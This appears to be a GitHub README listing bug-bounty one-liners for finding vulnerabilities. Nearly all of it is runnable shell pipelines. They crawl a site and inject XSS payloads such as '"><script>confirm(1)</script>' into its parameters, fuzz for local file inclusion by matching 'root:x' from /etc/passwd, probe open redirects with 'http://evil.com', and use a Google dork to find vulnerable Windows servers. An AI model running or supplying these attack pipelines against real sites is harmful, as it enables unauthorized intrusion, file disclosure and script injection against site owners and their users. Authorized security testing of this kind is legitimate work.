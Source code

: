 # BBH-commands
One-liners for finding various vulnerabilities

# Katana webcrawler to get all the metadata
katana -u https://testphp.vulnweb.com/ -o katana.txt 

# XSS using GF patterns
cat katana.txt | gf xss | grep 'source=' | qsreplace '"><script>confirm(1)</script>' | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host {Vulnerable}"; done

# LFI using GF patterns
cat katana.txt | gf lfi | tee lfi.txt
cat lfi.txt | qsreplace FUZZ | while read url; do ffuf -u $url -mr "root:x" -w /path/to/LFI_payloads.txt ; done

# Google Dork for LFI on Windows Server
site:http://example.com/ inurl:?filename= ext:aspx

# XSS with KXSS and Dalfox
cat katana.txt | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe

# Open redirects
cat katana.txt | grep -a -i \=http | qsreplace 'http://evil.com' | while read host; do curl -s -L "$host" -I | grep "evil.com" && echo -e "$host {Vulnerable}"; done

# XSS combined fuzzing
cat katana.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat combinedfuzz.json | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host {VULNERABLE}\n" || echo -e "$host {Not Vulnerable}\n"; done

# Open redirects with Bhedak
cat katana.txt | grep -a -i \=http | bhedak 'http://redirect.com' | while read host; do curl -s -L "$host" -I | grep "redirect.com" && echo -e "$host {Vulnerable}"; done

# XSS with uro and freq
cat urls.txt | grep "=" | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><script>alert("XSS");</script>' | freq


